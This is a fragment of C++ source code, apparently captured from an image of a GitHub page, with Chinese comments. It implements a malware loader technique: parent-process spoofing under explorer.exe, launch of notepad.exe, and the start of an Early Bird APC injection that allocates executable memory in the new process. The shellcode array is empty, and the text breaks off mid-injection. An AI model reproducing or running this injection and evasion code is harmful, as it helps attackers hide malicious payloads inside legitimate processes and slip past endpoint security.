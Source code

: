 ```c++
            if (_stricmp(pEntry.szExeFile, pName) == 0) {
                return pEntry.th32ProcessID;
            }
        }
    }
    CloseHandle(snapshot);
    return 0;
}

int main(void) {  
  	unsigned char shellcode[] = "";
    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 初始化STARTUPINFOEX结构体
    STARTUPINFOEX info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;
    SIZE_T cbAttributeListSize = 0;
    PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
    HANDLE hParentProcess = NULL;
    DWORD dwPid = 0;

    // 获取指定进程的PID
    dwPid = GetPidByName("explorer.exe");
    if (dwPid == 0)
        dwPid = GetCurrentProcessId();

    // 初始化进程线程属性列表
    InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
    pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
    InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);

    // 打开指定PID的进程句柄
    hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    // 更新进程线程属性，伪造父进程
    UpdateProcThreadAttribute(pAttributeList,
                                0,
                                PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
                                &hParentProcess,
                                sizeof(HANDLE),
                                NULL,
                                NULL);

    info.lpAttributeList = pAttributeList;

    // 创建新的进程，使其具有不同的父进程
    CreateProcessA(NULL,
                    (LPSTR) "notepad.exe",
                    NULL,
                    NULL,
                    FALSE,
                    EXTENDED_STARTUPINFO_PRESENT,
                    NULL,
                    NULL,
                    &info.StartupInfo,
                    &processInfo);

    // Early Bird APC注入
		LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(processInfo.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```